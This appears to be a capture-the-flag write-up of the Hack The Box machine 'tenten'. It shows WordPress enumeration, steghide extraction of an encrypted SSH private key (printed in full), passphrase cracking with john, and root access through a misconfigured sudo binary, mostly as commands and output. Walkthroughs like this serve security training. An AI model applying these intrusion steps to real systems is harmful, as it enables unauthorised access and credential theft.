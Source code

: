 ```yaml
---
title: tenten
author: fieldraccoon
date: 2020-06-22 
categories: [hack-the-box, linux]
tags: [hack-the-box, crypto, medium]
math: true
---
```

# tenten

tenten was a relatively easy medium linux box that involved recon of the wordpress site to find a jpg file. We then run steghide on the file to get an rsa key which we extract the password from using ssh2john. We then ssh into the box as user, for root we find an intersesting file called `fuckin` which we can abuse to get comand execution and read the root flag.

> Skills involved in this box:
- enumeration
- privelage escalation
- hash cracking
- steghide

# USER

> Nmap
```shell
nmap -sC -sV -o nmap 10.10.10.10

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 09:24 EDT                                                    
Nmap scan report for 10.10.10.10                                                                                   
Host is up (0.031s latency).                                                                                       
Not shown: 998 filtered ports                                                                                      
PORT   STATE SERVICE VERSION                                                                                       
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)                                  
| ssh-hostkey:                                                                                                     
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)                                                     
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our nmap scan reveals just 2 ports open, 22 on ssh and port 80 on http.

We head over to the website and se imeediately that it is wordpress, instead of using dirbuster or any oter reconnaisance tools we use wpscan which is made specifically for wordpress.

```shell
$ sudo wpscan -u http://10.10.10.10 
[+] We found 1 plugins:

[+] Name: job-manager - v7.2.5
 |  Latest version: 0.7.25 (up to date)
 |  Last updated: 2015-08-25T22:44:00.000Z
 |  Location: http://10.10.10.10/wp-content/plugins/job-manager/
 |  Readme: http://10.10.10.10/wp-content/plugins/job-manager/readme.txt
[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+-------+-------+
    | Id | Login | Name  |
    +----+-------+-------+
    | 1  | takis | takis |
    | 2  | user1 | user1 |
    +----+-------+-------+
```

We can see that there is a user called takis on the site, we assume that this is going to be the user for this box.

Afer navigating to the http page and enumerating the website we come accross the job listings page where we click `apply` and we get an interesting url.

`http://10.10.10.10/index.php/jobs/apply/8/`


 We can see that there is the number `8` which we assume is the id of the person logged on, we test a few more numbers and we get a unique user called `HackerAccessGranted` we assume that this has to be the right thing.

 We could also get this by intercepting the request with burpsuite and sending it to intruder, we then generate a custom payload with numbers(e.g like 1-20), then take a look at the output and get the same response for number 13.

 >Exploit

 he wordpress directory structure for the uploaded files is known as /wp-content/uploads/%year%/%month%/%filename% - file structure for wordpress

We test file extensions for our wanted file and it finally  works with a `jpg` file.
```shell
wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
This can also be find by fuzzing further for files or by using an exploit `CVE-2015-6668` which is a python script that bruteforces files and shows us the image file.

We then run steghide on this image to see if we can exfiltrate any hidden data inside it.

```shell
kali@kali:~/boxes/tenten$ steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".

cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C

/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf
K2ny0iTGPndD7LMdm/o5O5As+ChDYFNphV1XDgfDzHgonKMC4iES7Jk8Gz20PJsm
SdWCazF6pIEqhI4NQrnkd8kmKqzkpfWqZDz3+g6f49GYf97aM5TQgTday2oFqoXH
WPhK3Cm0tMGqLZA01+oNuwXS0H53t9FG7GqU31wj7nAGWBpfGodGwedYde4zlOBP
VbNulRMKOkErv/NCiGVRcK6k5Qtdbwforh+6bMjmKE6QvMXbesZtQ0gC9SJZ3lMT
J0IY838HQZgOsSw1jDrxuPV2DUIYFR0W3kQrDVUym0BoxOwOf/MlTxvrC2wvbHqw
AAniuEotb9oaz/Pfau3OO/DVzYkqI99VDX/YBIxd168qqZbXsM9s/aMCdVg7TJ1g
2gxElpV7U9kxil/RNdx5UASFpvFslmOn7CTZ6N44xiatQUHyV1NgpNCyjfEMzXMo
6FtWaVqbGStax1iMRC198Z0cRkX2VoTvTlhQw74rSPGPMEH+OSFksXp7Se/wCDMA
pYZASVxl6oNWQK+pAj5z4WhaBSBEr8ZVmFfykuh4lo7Tsnxa9WNoWXo6X0FSOPMk
tNpBbPPq15+M+dSZaObad9E/MnvBfaSKlvkn4epkB7n0VkO1ssLcecfxi+bWnGPm
KowyqU6iuF28w1J9BtowgnWrUgtlqubmk0wkf+l08ig7koMyT9KfZegR7oF92xE9
4IWDTxfLy75o1DH0Rrm0f77D4HvNC2qQ0dYHkApd1dk4blcb71Fi5WF1B3RruygF
2GSreByXn5g915Ya82uC3O+ST5QBeY2pT8Bk2D6Ikmt6uIlLno0Skr3v9r6JT5J7
L0UtMgdUqf+35+cA70L/wIlP0E04U0aaGpscDg059DL88dzvIhyHg4Tlfd9xWtQS
VxMzURTwEZ43jSxX94PLlwcxzLV6FfRVAKdbi6kACsgVeULiI+yAfPjIIyV0m1kv
5HV/bYJvVatGtmkNuMtuK7NOH8iE7kCDxCnPnPZa0nWoHDk4yd50RlzznkPna74r
Xbo9FdNeLNmER/7GGdQARkpd52Uur08fIJW2wyS1bdgbBgw/G+puFAR8z7ipgj4W
p9LoYqiuxaEbiD5zUzeOtKAKL/nfmzK82zbdPxMrv7TvHUSSWEUC4O9QKiB3amgf
yWMjw3otH+ZLnBmy/fS6IVQ5OnV6rVhQ7+LRKe+qlYidzfp19lIL8UidbsBfWAzB
9Xk0sH5c1NQT6spo/nQM3UNIkkn+a7zKPJmetHsO4Ob3xKLiSpw5f35SRV+rF+mO
vIUE1/YssXMO7TK6iBIXCuuOUtOpGiLxNVRIaJvbGmazLWCSyptk5fJhPLkhuK+J
YoZn9FNAuRiYFL3rw+6qol+KoqzoPJJek6WHRy8OSE+8Dz1ysTLIPB6tGKn7EWnP
-----END RSA PRIVATE KEY-----
```
It works and it outputs to a file called id_rsa which is the ssh key for the user takis.

We try ssh into the box but the key is password protected.

```shell
kali@kali:~/boxes/tenten$ chmod 600 id_rsa
kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password:
```
From here we tried `ssh2john.py` with `john` which worked great!

```shell
sudo /usr/share/john/ssh2john.py  id_rsa > hash

kali@kali:~/boxes/tenten$ sudo john -w=/home/kali/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:07 DONE (2020-06-22 09:41) 0.1416g/s 2031Kp/s 2031Kc/s 2031KC/sa6_123..*7¡Vamos!
Session completed
```
So now we got our password `superpassword`.

We ssh into the box and read our user flag.

```shell

kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
takis@tenten:~$ ls
user.txt
takis@tenten:~$ cat user.txt
e5c7ed3b89e73049c04c432fc8686f31
```
We run `sudo -l` to check if we have any privs for running things as sudo and it turns out that we do.
```shell
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
we can see here that the user can run the file `fuckin` as root.

We experiment with what the file can do and we realise that we can simply specify the command after the file, we willl use this to read the root flag.
```shell
takis@tenten:~$ fuckin cat /root/root.txt
cat: /root/root.txt: Permission denied
takis@tenten:~$ fuckin id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
takis@tenten:~$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)
takis@tenten:~$ sudo fuckin cat /root/root.txt
f9f7291e39a9a2a011b1425c3e08f603
takis@tenten:~$ 
```
Thanks for reading hope you enjoyed!
